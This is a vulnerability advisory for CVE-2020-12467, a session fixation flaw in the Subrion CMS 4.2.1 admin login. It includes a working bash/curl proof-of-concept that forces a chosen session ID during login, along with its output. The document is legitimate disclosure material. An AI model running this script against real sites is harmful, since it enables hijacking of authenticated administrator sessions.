 ```yaml
---
layout: default
parent: Subrion CMS
title: CVE-2020-12467 - Session Fixation 
nav_order: 1
---
```

# Admin/User Login - Session Fixation

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the session cookie with an arbitrary alphanumeric value prior to the login leads to a session fixation vulnerability. Using CWE to declare the problem leads to CWE-384. Impacted is integrity. An attacker might be able hijacking the user-validated session by forcing an arbitrary session ID.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. No form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

**Sample affected URL**

* http://subrion.local/panel/

Submitting a valid login with a crafted session ID, causes the ID to be reflected and set as a valid session identifier.

The following [script](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/Subrion%20CMS/Session%20Fixation/sess_fix.sh) may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Fix the Session Cookie Value and login
curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000" -i | grep "Set-Cookie"

```

Using the above script should give the following output, proving the vulnerability.

```
$ ./sess_fix.sh
Set-Cookie: INTELLI_06c8042c3d=00000000000000000000000000; expires=Sun, 12-Apr-2020 16:07:44 GMT; Max-Age=1800; path=/
Set-Cookie: salt=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
```


## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://owasp.org/www-community/attacks/Session_fixation](https://owasp.org/www-community/attacks/Session_fixation)



 
